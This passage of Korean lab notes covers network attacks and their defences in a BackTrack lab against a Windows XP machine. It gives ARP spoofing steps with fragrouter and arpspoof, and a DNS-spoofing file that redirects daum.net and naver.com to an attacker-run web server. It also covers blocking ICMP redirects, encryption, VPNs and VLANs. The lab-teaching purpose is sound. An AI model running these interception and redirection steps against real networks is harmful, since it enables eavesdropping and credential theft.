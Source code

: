 - 2번 터미널
- ```fragrouter -B1```

양쪽 다 wireshark로 확인


### ICMP Redirect 공격 방어
리눅스 시스템에서 ICMP Redirect 차단하기
- /proc/sys/net/ipv4/conf/default/accept_redirect를 0으로 설정

윈도우 시스템(Win7)에서 ICMP Redirect 차단하기
- 인바운드 규칙

### Sniffing 공격 대응 방안

- 암호화 기법 도입 및 VPN 기술 이용   
    - 패킷 가로채기 공격을 원천 봉쇄하는 것은 불가능함으로 암호화 통신이 해결방안
    - 평문으로 전송하는 http, telnet은 금지하고, https, ssh 등의 암호화 프로토콜 이용
    - 인터넷 회선을 이용하여 사설전용망의 효과를 줄 수 있는 VPN망 구성하여 이용

- 공격 범위 축소를 위한 NW 분리
    - L3 스위치 IP주소 대역 분리, L2스위치의 VLAN 기술 활용한 NW분리 적극 활용
    - VLAN 설정하여 broadcast 도메인을 나누어 Arp 스푸핑 등의 공격을 차단

---

### ARP Spoofing 공격 실습

1. BT에서 fragrouter를 활성화 시켜서 패킷 포워딩을 시킨다.
    - fragrouter -B1
2. 공격 전 xp 에서 arp 테이블 조회(arp 테이블에 MAC이 없으면 G/W로 ping 명령 실행)
    - arp -a
3. BT에서 arp spoofing 공격
    - arpspoof -i eth1 -t 10.10.10.100 10.10.10.2
4. 공격 후 xp에서 arp 테이블 조회 및 외부로 인터넷도 잘 되는지 확인
    - arp -a
5. BT에서 wireshark을 실행시켜서 windows xp의 패킷이 수신됨을 확인한다.

<br></br></br>

- ```gedit DomainFile```
    - 10.10.10.200  wwww.daum.net
    - 10.10.10.200  wwww.naver.com

- BackTrack
    - Services
        - HTTPD
            - apache start

- Internet 
    - Firefox Web Browser
        - localhost

- (터미널) ```fragrouter -B1```
- (터미널) ```arpspoof -i eth1 -t 10.10.10.100 10.10.10.2```
